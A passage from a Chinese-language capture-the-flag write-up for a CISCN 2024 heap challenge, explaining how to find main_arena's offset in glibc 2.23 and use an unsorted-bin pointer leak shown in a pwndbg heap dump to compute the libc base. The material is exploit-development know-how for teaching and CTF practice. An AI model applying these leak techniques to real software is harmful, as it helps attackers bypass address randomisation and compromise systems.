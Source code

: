 ![](/img/wp/ciscn2024-初赛/malloc_hook_and_main_arena.png)


```python
main_arena_offset = ELF("libc-2.23.so").symbols["__malloc_hook"] + 0x10
```

利用这两种方法之一，便可以算出main_arena在libc中的偏移了，得出偏移为0x3C4B20
再获取bk和main_arena的偏移，即可计算libc_base

#### 计算bk与main_arena的偏移
可以直接调试获取
```
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x6549ce9b1000
Size: 0x71

Allocated chunk | PREV_INUSE
Addr: 0x6549ce9b1070
Size: 0x21

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x6549ce9b1090
Size: 0xf51
fd: 0x7e344694bb78
bk: 0x7e344694bb78

Allocated chunk
Addr: 0x6549ce9b1fe0
Size: 0x10

Allocated chunk | PREV_INUSE
Addr: 0x6549ce9b1ff0
Size: 0x11

Allocated chunk
Addr: 0x6549ce9b2000
Size: 0x00

pwndbg> x/10gx 0x6549ce9b1070
0x6549ce9b1070: 0x6161616161616161      0x0000000000000021
```